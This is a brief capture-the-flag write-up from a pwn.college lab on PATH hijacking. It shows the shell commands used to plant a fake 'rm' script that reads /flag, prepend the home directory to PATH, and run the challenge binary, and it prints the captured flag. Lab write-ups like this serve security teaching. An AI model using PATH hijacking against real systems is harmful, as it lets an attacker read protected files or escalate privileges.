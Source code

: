 #**Pondering Path**

##**Hijacking Commands**

I passed _/bin/cat /flag_ to the shell script named rm to override the existing rm command and set PATH variable using export command. I ran _/challenge/run_ to get the flag.

    _hacker@path-hijacking-commands:~$ nano rm_

    _hacker@path-hijacking-commands:~$ chmod +x rm_

    _hacker@path-hijacking-commands:~$ export PATH=/home/hacker:$PATH_

    _hacker@path-hijacking-commands:~$ /challenge/run_

    _Trying to remove /flag..._

    _Found 'rm' command at /home/hacker/rm. Executing!_

    _pwn.college{4OTTYvM-A2YpCEUhyVE_9hl3S4x.ddzNyUDL1cTN0czW}_
